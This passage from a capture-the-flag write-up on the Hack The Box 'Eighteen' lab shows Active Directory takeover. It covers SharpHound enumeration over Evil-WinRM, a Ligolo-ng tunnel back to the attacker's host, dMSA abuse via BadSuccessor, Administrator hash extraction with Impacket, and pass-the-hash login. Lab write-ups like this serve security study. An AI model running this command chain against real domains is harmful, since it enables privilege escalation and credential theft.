- [https://github.com/SpecterOps/BloodHound-Legacy/blob/master/Collectors/SharpHound.exe](https://github.com/SpecterOps/BloodHound-Legacy/blob/master/Collectors/SharpHound.exe)

```cmd
*Evil-WinRM* PS C:\Users\adam.scott\Documents> upload SharpHound.exe
                                        
Info: Uploading /home/kali/SharpHound.exe to C:\Users\adam.scott\Documents\SharpHound.exe
                                        
Data: 1395368 bytes of 1395368 bytes copied
                                        
Info: Upload successful!
```

```cmd
*Evil-WinRM* PS C:\Users\adam.scott\Documents> .\SharpHound.exe -c all
2025-11-15T19:04:44.4238423-08:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
2025-11-15T19:04:44.6027018-08:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2025-11-15T19:04:44.6267070-08:00|INFORMATION|Initializing SharpHound at 7:04 PM on 11/15/2025
2025-11-15T19:04:44.8538934-08:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for eighteen.htb : DC01.eighteen.htb
2025-11-15T19:04:44.8847980-08:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2025-11-15T19:04:45.0818984-08:00|INFORMATION|Beginning LDAP search for eighteen.htb
2025-11-15T19:04:45.1320606-08:00|INFORMATION|Producer has finished, closing LDAP channel
2025-11-15T19:04:45.1340694-08:00|INFORMATION|LDAP channel closed, waiting for consumers
2025-11-15T19:05:15.2707959-08:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 36 MB RAM
2025-11-15T19:05:28.6346328-08:00|INFORMATION|Consumers finished, closing output channel
2025-11-15T19:05:28.6764677-08:00|INFORMATION|Output channel closed, waiting for output task to complete
Closing writers
2025-11-15T19:05:28.8091911-08:00|INFORMATION|Status: 105 objects finished (+105 2.44186)/s -- Using 43 MB RAM
2025-11-15T19:05:28.8091911-08:00|INFORMATION|Enumeration finished in 00:00:43.7333994
2025-11-15T19:05:28.8970058-08:00|INFORMATION|Saving cache with stats: 65 ID to type mappings.
 65 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2025-11-15T19:05:28.9129715-08:00|INFORMATION|SharpHound Enumeration Completed at 7:05 PM on 11/15/2025! Happy Graphing!
```

```cmd
*Evil-WinRM* PS C:\Users\adam.scott\Documents> dir


    Directory: C:\Users\adam.scott\Documents


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        11/15/2025   7:05 PM          12335 20251115190528_BloodHound.zip
-a----        11/15/2025   7:05 PM           9676 MGE1ZTIxYmUtZjVmMS00YzI1LWFjMzktZDdlNDBkZGFhYmQw.bin
-a----        11/15/2025   7:04 PM        1046528 SharpHound.exe
```

```cmd
*Evil-WinRM* PS C:\Users\adam.scott\Documents> download 20251115190528_BloodHound.zip
                                        
Info: Downloading C:\Users\adam.scott\Documents\20251115190528_BloodHound.zip to 20251115190528_BloodHound.zip
                                        
Info: Download successful!
```

After all that effort all we got was another dead end on the `group memberships` of our current user.



## Privilege Escalation to SYSTEM

### Delegated Managed Service Account (dMSA) Abuse via BadSuccessor

After quite some time and research based on the information we collected on the system, we found out that the box was vulnerable to `Delegated Managed Service Account (dMSA)` abuse via `BadSuccessor`.

- [https://www.akamai.com/blog/security-research/abusing-dmsa-for-privilege-escalation-in-active-directory?](https://www.akamai.com/blog/security-research/abusing-dmsa-for-privilege-escalation-in-active-directory?)
- [https://www.bordergate.co.uk/dmsa-abuse/](https://www.bordergate.co.uk/dmsa-abuse/)
- [https://github.com/ibaiC/BadSuccessor/blob/main/BadSuccessor/obj/Debug/BadSuccessor.exe](https://github.com/ibaiC/BadSuccessor/blob/main/BadSuccessor/obj/Debug/BadSuccessor.exe)
To pull this off we downloaded the `pre-compiled binary` to see what option we had.

```cmd
*Evil-WinRM* PS C:\Users\adam.scott\Documents> upload BadSuccessor.exe
                                        
Info: Uploading /home/kali/BadSuccessor.exe to C:\Users\adam.scott\Documents\BadSuccessor.exe
                                        
Data: 26624 bytes of 26624 bytes copied
                                        
Info: Upload successful!
```

Knowing that we could write to `Staff` was enough to go for it.

```cmd
*Evil-WinRM* PS C:\Users\adam.scott\Documents> .\BadSuccessor.exe find

 ______           __ _______
|   __ \ .---.-.--|  |     __|.--.--.----.----.-----.-----.-----.-----.----.
|   __ < |  _  |  _  |__     ||  |  |  __|  __|  -__|__ --|__ --|  _  |   _|
|______/ |___._|_____|_______||_____|____|_____|_____|_____|_____|_____|__|

Researcher: @YuG0rd
Author: @kreepsec


[*] OUs you have write access to:
    -> OU=Domain Controllers,DC=eighteen,DC=htb
       Privileges: GenericWrite, GenericAll
    -> OU=Staff,DC=eighteen,DC=htb
       Privileges: GenericWrite, GenericAll, CreateChild
```

### Port Forwarding via Ligolo-ng

Because the attack required us to get a `Kerberos Ticket` and every service relevant to the `DC` was firewalled, we started `Ligolo-ng` to forward our traffic to the box.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo ip tuntap add user $(whoami) mode tun ligolo
```

```shell
┌──(kali㉿kali)-[~]
└─$ sudo ip link set ligolo up
```

```shell
┌──(kali㉿kali)-[~]
└─$ sudo ip route add 240.0.0.1/32 dev ligolo
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Eighteen/serve]
└─$ ./proxy -laddr 10.10.16.97:443 -selfcert
```

```cmd
*Evil-WinRM* PS C:\Users\adam.scott\Documents> upload agent.exe
                                        
Info: Uploading /home/kali/agent.exe to C:\Users\adam.scott\Documents\agent.exe
                                        
Data: 12008104 bytes of 12008104 bytes copied
                                        
Info: Upload successful!
```

```cmd
*Evil-WinRM* PS C:\Users\adam.scott\Documents> .\agent.exe -connect 10.10.16.97:443 -ignore-cert
```

```shell
ligolo-ng » session
? Specify a session : 1 - EIGHTEEN\adam.scott@DC01 - 10.129.57.94:50885 - 005056b013f7
[Agent : EIGHTEEN\adam.scott@DC01] » start
INFO[0018] Starting tunnel to EIGHTEEN\adam.scott@DC01 (005056b013f7)
```

### Time and Date Synchronization

Next we needed to `synchronize` our `date` and `time` with the `DC` in order to request a `Kerberos Ticket`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Eighteen/files]
└─$ sudo /etc/init.d/virtualbox-guest-utils stop
[sudo] password for kali: 
Stopping virtualbox-guest-utils (via systemctl): virtualbox-guest-utils.service
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Eighteen/files]
└─$ sudo systemctl stop systemd-timesyncd
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Eighteen/files]
└─$ sudo net time set -S 240.0.0.1
```

### Delegated Managed Service Account (dMSA) Abuse

After we met all the `pre-requisites` we started the `attack` using `BadSuccessor` to `link` our `low-privileged` user to the `Administrator`.

```cmd
*Evil-WinRM* PS C:\Users\adam.scott\Documents> .\BadSuccessor.exe escalate -targetOU "OU=Staff,DC=eighteen,DC=htb" -dmsa evildmsa -targetUser "CN=Administrator,CN=Users,DC=eighteen,DC=htb" -dnshostname evildmsa -user adam.scott -dc-ip 10.129.57.94

 ______           __ _______
|   __ \ .---.-.--|  |     __|.--.--.----.----.-----.-----.-----.-----.----.
|   __ < |  _  |  _  |__     ||  |  |  __|  __|  -__|__ --|__ --|  _  |   _|
|______/ |___._|_____|_______||_____|____|_____|_____|_____|_____|_____|__|

Researcher: @YuG0rd
Author: @kreepsec

[*] Creating dMSA object...
[*] Inheriting target user privileges
    -> msDS-ManagedAccountPrecededByLink = CN=Administrator,CN=Users,DC=eighteen,DC=htb
    -> msDS-DelegatedMSAState = 2
[+] Privileges Obtained.
[*] Setting PrincipalsAllowedToRetrieveManagedPassword
    -> msDS-GroupMSAMembership = adam.scott
[+] Setting userAccountControl attribute
[+] Setting msDS-SupportedEncryptionTypes attribute

[+] Created dMSA 'evildmsa' in 'OU=Staff,DC=eighteen,DC=htb', linked to 'CN=Administrator,CN=Users,DC=eighteen,DC=htb' (DC: 10.129.57.94)

[*] Phase 4: Use Rubeus or Kerbeus BOF to retrieve TGS and Password Hash
    -> Step 1: Find luid of krbtgt ticket
     Rubeus:      .\Rubeus.exe triage
     Kerbeus BOF: krb_triage BOF

    -> Step 2: Get TGT of Windows 2025/24H2 system with a delegated MSA setup and migration finished.
     Rubeus:      .\Rubeus.exe dump /luid:<luid> /service:krbtgt /nowrap
     Kerbeus BOF: krb_dump /luid:<luid>

    -> Step 3: Use ticket to get a TGS ( Requires Rubeus PR: https://github.com/GhostPack/Rubeus/pull/194 )
    Rubeus:      .\Rubeus.exe asktgs /ticket:TICKET_FROM_ABOVE /targetuser:evildmsa$ /service:krbtgt/domain.local /dmsa /dc:<DC hostname> /opsec /nowrap
```

After that we requested a `Kerberos Ticket` and `exposed` it to our current session.

```shell
┌──(venv)─(kali㉿kali)-[~/opt/10_post_exploitation/impacket]
└─$ impacket-getTGT eighteen.htb/adam.scott:iloveyou1 -dc-ip 240.0.0.1
Impacket v0.13.0.dev0+20251002.113829.eaf2e556 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in adam.scott.ccache
```

```shell
┌──(venv)─(kali㉿kali)-[~/opt/10_post_exploitation/impacket]
└─$ export KRB5CCNAME=adam.scott.ccache
```

As last step all what was left was to `impersonate` the `Administator` using `getST.py` of `Impacket`.

```shell
┌──(venv)─(kali㉿kali)-[~/opt/10_post_exploitation/impacket]
└─$ examples/getST.py -k -no-pass -impersonate evildmsa$ -self -dmsa eighteen.htb/adam.scott -dc-ip 240.0.0.1
Impacket v0.13.0.dev0+20251002.113829.eaf2e556 - Copyright Fortra, LLC and its affiliated companies 

[*] Impersonating evildmsa$
[*] Requesting S4U2self
[*] Current keys:
[*] EncryptionTypes.aes256_cts_hmac_sha1_96:e0366eb701e6877842790c8d7494c0f62c4c0ba9c1bcebaeb1959139b82cefac
[*] EncryptionTypes.aes128_cts_hmac_sha1_96:a00f6ae763f551df5f30b0a110d69be0
[*] EncryptionTypes.rc4_hmac:baf9657597974bc429d2121c34eb0a13
[*] Previous keys:
[*] EncryptionTypes.rc4_hmac:0b133be956bfaddf9cea56701affddec
[*] Saving ticket in evildmsa$@krbtgt_EIGHTEEN.HTB@EIGHTEEN.HTB.ccache
```

| Username      | NTLM Hash                        |
| ------------- | -------------------------------- |
| Administrator | 0b133be956bfaddf9cea56701affddec |

And then we simply logged in using `Pass-the-Hash (Pth)`.

```cmd
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i eighteen.htb -u Administrator -H 0b133be956bfaddf9cea56701affddec
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

## root.txt

```cmd
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
689ec767b335c4714628aa9d50c00d98
```